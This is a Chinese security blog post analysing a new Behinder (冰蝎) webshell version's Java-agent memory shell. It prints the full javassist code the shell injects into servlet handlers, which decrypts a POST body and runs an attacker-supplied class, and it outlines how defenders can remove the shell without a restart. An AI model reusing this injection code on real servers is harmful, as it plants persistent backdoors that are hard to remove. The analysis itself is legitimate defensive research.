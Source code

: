 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NPv4LzPe-QE-gk0DycN2ng)

hw 第一天，冰蝎发布了更新版本。在蛋黄狗狗的眼中，冰蝎反编译越来越简单，让更多人都可以参与魔改冰蝎的过程中。冰蝎的流量正在朝向加密化，混淆化的方向发展，对于全流量取证设备来讲压力越来越大。甚至，你真的认为部署的全流设备有用？？？

冰蝎更新主要有以下几点：

1.  反编译越来越简单。
    
2.  新增内存马注入。不同于以往的内存马注入方式，变得更难以清除
    

从流量部分来看，新版冰蝎的流量部分并没有太多变化。不出意外的话，各大安全厂商应该是可以查杀的。但是，不要忘记，新版反编译很简单，降低魔改冰蝎的门槛，也就是说，魔改流量冰蝎即将出世。

新版冰蝎的 http 请求函数

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgmzHQ2hB4PJz0kv9yTnTydibAJhjYQxD7ZZCPXsQSicd7OSuk8mjN9KGctkrib2KoJV9aHLCF9X9SA/640?wx_fmt=png)image-20210409095006532

1. 新版内存马分析
----------

冰蝎为了实现更难清楚的目的，放弃了内存马的不落地的特征。转而使用 JVM TI 技术（rasp 一样的技术），动态修改 java http 的处理部分。

下面我们来看一下怎么实现的，在注入内存马的时候，shell 会通过目标操作系统的类别判断上传哪种 java agentjar 包。路径在下图

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgmzHQ2hB4PJz0kv9yTnTyaI38picsybm7OluyTWUE078qckWcBdLPYO4iaWXTfUxvnhiaYfrHs65Gg/640?wx_fmt=png)image-20210409100249077

我们随便点开一个分析

### 1.1 注入 java agent

jar 包被上传后，会首先执行下面的代码，该代码反射调用`com.sun.tools.attach.VirtualMachine`，VirtualMachine 这个类提供一些调用 jvm 方法的途径。该类的说明文档在这里以供查阅  https://docs.oracle.com/javase/7/docs/jdk/api/attach/spec/com/sun/tools/attach/VirtualMachine.html。

需要注意的是，目前 jvm 只提供了加载 java agent，但是没有提供卸载 java agent。也就是说加载后是无法清除的，只能从重启的角度来清除该类型内存马，如果再配合我的 JVM 持久化方法呢？蓝队很难做应急响应去清除该类型 webshell 的。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgmzHQ2hB4PJz0kv9yTnTy5oSXDKd77riajCsesxD1f5CviblGB3xvJqicesLeOVvn3wib0X4TQJSgzg/640?wx_fmt=png)image-20210409101412894

### 1.2  修改字节码

冰蝎内存马为了实现更好的兼容性，选择 hook `javax.servlet.http.HttpServlet#service` 函数，在 weblogic 选择 hook `weblogic.servlet.internal.ServletStubImpl#execute` 函数。

添加的代码很简单，获取 request，response，判断请求的 url 是否为内存马响应的 url，如果是，则进入内存马执行的流程，如果不是则不响应。这段 javaassist 的代码如下

```
System.out.println("rx0001");javax.servlet.http.HttpServletRequest request=(javax.servlet.ServletRequest)$1;javax.servlet.http.HttpServletResponse response = (javax.servlet.ServletResponse)$2;javax.servlet.http.HttpSession session = request.getSession();String pathPattern="%s";System.out.println(request.getRequestURI());if (request.getRequestURI().matches(pathPattern)){System.out.println("rx0002"); java.util.Map obj=new java.util.HashMap(); obj.put("request",request); obj.put("response",response); obj.put("session",session);    ClassLoader loader=this.getClass().getClassLoader(); if (request.getMethod().equals("POST")) {  try  {   String k="%s";   session.putValue("u",k);      java.lang.ClassLoader systemLoader=java.lang.ClassLoader.getSystemClassLoader();           Class cipherCls=systemLoader.loadClass("javax.crypto.Cipher");           Object c=cipherCls.getDeclaredMethod("getInstance",new Class[]{String.class}).invoke((java.lang.Object)cipherCls,new Object[]{"AES"});           System.out.println("ccc:"+c);           Object keyObj=systemLoader.loadClass("javax.crypto.spec.SecretKeySpec").getDeclaredConstructor(new Class[]{byte[].class,String.class}).newInstance(new Object[]{k.getBytes(),"AES"});;                     java.lang.reflect.Method initMethod=cipherCls.getDeclaredMethod("init",new Class[]{int.class,systemLoader.loadClass("java.security.Key")});     initMethod.invoke(c,new Object[]{new Integer(2),keyObj});           java.lang.reflect.Method doFinalMethod=cipherCls.getDeclaredMethod("doFinal",new Class[]{byte[].class});   Class Base64 = loader.loadClass("sun.misc.BASE64Decoder");   Object Decoder = Base64.newInstance();   byte[] requestBody=(byte[]) Decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(Decoder, new Object[]{request.getReader().readLine()});   byte[] buf=(byte[])doFinalMethod.invoke(c,new Object[]{requestBody});   java.lang.reflect.Method defineMethod=java.lang.ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class,java.nio.ByteBuffer.class,java.security.ProtectionDomain.class});   defineMethod.setAccessible(true);   java.lang.reflect.Constructor constructor=java.security.SecureClassLoader.class.getDeclaredConstructor(new Class[]{java.lang.ClassLoader.class});   constructor.setAccessible(true);   java.lang.ClassLoader cl=(java.lang.ClassLoader)constructor.newInstance(new Object[]{loader});   java.lang.Class  c=(java.lang.Class)defineMethod.invoke((java.lang.Object)cl,new Object[]{null,java.nio.ByteBuffer.wrap(buf),null});   c.newInstance().equals(obj);  }  catch(java.lang.Exception e)  {     e.printStackTrace();  }  catch(java.lang.Error error)  {  error.printStackTrace();  }  return; } }
```

你以为检测这两个函数就可以了吗？不，你错了，在中间件的任何一个处理 http 请求的环节，都可以实现插入我们自己的字节码以做到内存马。在某一版的冰蝎中，hook 的是下面 tomcat 特有的这个类。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgmzHQ2hB4PJz0kv9yTnTyqYRx0wibQT3oxMgsqVrrqr2Mibp5Kt9ZzdMdibXIDcnWaehURCEmVia3cg/640?wx_fmt=png)image-20210409102347580

2. 清除 java agent 内存马
--------------------

理论上讲无法通过常规工具清除，除非重启，java agent 在添加字节码的时候，有如下几个限制

1.  不能新增方法
    
2.  不能修改函数签名
    

而且经过 java agent 修改后的类，jvm 并没有保存之前未修改的类的字节码。javaassist 也没有 delete method 代码的功能。

但是为了在不重启业务服务器的情况下完成清除内存马，可以通过如下手段解决

1.  读取本地磁盘上的 class 字节码
    
2.  重新写一个 java agent，强行替换被内存马修改后的类。
    

当然，专业的事还是要专业的人去做，您要是感觉自己清除 javaagent 类型的 webshell 不稳容易翻车的话，不妨交给我们去完成这个任务。如有需要该类有偿服务，请后台说明来意联系我们。

当然，我也会发布工具去清除内存马，但是不保证做到不影响线上业务。请各位酌情选择。工具将会发布到知识星球中。

我正在「宽字节安全」和朋友们讨论有趣的话题，你⼀起来吧？https://t.zsxq.com/qJe2JEi

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw25uaZEmwaGKmltLREfSVu5J7C9y8q7qg7GoGW5iapmeHKPoFY74Ha1fA/640?wx_fmt=png)